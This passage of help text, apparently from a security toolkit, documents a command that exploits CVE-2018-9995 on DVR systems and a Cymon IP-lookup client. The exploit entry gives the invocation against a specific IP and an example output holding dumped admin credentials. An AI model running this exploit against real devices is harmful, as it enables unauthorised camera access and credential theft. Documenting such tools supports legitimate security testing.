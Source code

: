 
## habu.cve.2018.9995


``` {.sourceCode .bash}
Usage: habu.cve.2018.9995 [OPTIONS] IP

  Exploit the CVE-2018-9995 vulnerability, present on various DVR systems.

  Note: Based on the original code from Ezequiel Fernandez (@capitan_alfa).

  Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9995

  Example:

  $ python habu.cve.2018-9995 82.202.102.42
  [
      {
          "uid": "admin",
          "pwd": "securepassword",
          "role": 2,
          "enmac": 0,
          "mac": "00:00:00:00:00:00",
          "playback": 4294967295,
          "view": 4294967295,
          "rview": 4294967295,
          "ptz": 4294967295,
          "backup": 4294967295,
          "opt": 4294967295
      }
  ]

Options:
  -p INTEGER  Port to use (default: 80)
  -v          Verbose
  --help      Show this message and exit.
```


## habu.cymon.ip


``` {.sourceCode .bash}
Usage: habu.cymon.ip [OPTIONS] IP

  Simple cymon API client.

  Prints the JSON result of a cymon IP query.

  Example:

  $ habu.cymon.ip 8.8.8.8
  {
      "addr": "8.8.8.8",
      "created": "2015-03-23T12:03:42Z",
      "updated": "2018-08-24T04:06:07Z",
      "sources": [
          "safeweb.norton.com",
          "botscout.com",
          "virustotal.com",
          "phishtank"
      ],
      "events": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/events",
      "domains": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/domains",
      "urls": "https://www.cymon.io/api/nexus/v1/ip/8.8.8.8/urls"
```